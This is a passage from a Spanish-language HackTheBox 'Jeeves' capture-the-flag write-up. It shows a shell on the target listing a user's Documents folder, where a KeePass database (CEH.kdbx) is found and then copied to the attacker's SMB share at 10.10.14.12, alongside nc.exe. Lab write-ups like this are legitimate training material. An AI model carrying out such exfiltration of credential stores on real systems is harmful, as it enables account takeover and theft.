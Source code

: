 ```bash
dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\kohsuke\Documents

11/03/2017  11:18 PM    <DIR>          .
11/03/2017  11:18 PM    <DIR>          ..
09/18/2017  01:43 PM             2,846 CEH.kdbx
               1 File(s)          2,846 bytes
               2 Dir(s)   2,408,325,120 bytes free

C:\Users\kohsuke\Documents>
```

- Esto corresponde al `KeePass`.

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/jeeves/web15.png">
</p>

- Vamos a traernos eso a nuestra máquina de atacante usando el recurso compartido a nivel de red con `smbclient.py` que ya tenemos.

```bash
copy CEH.kdbx \\10.10.14.12\parrotsec\CEH.kdbx
        1 file(s) copied.

C:\Users\kohsuke\Documents>
```

- Y tenemos el archivo.

```bash
❯ ls
 CEH.kdbx   nc.exe
```
